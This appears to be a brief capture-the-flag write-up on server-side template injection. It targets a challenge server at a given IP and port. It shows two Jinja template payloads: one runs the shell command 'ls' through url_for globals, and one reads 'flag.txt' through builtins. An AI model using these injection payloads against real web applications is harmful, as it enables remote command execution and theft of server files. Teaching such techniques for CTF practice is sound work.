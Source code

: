 Server-Side Template Injection (SSTI)asda

Idea: given URL 'http://165.232.101.11:30440/notfoundquery{{ INJECT PYTHON STUFF }}'

1. Execute command to list local files 
```python
{{url_for.__globals__.os.__dict__.popen('ls').read()}}
```
-> then you will see 'flag.txt' file 
2.Execute command to read file
```python
{{url_for.__globals__.__builtins__.open('flag.txt').read()}}
```

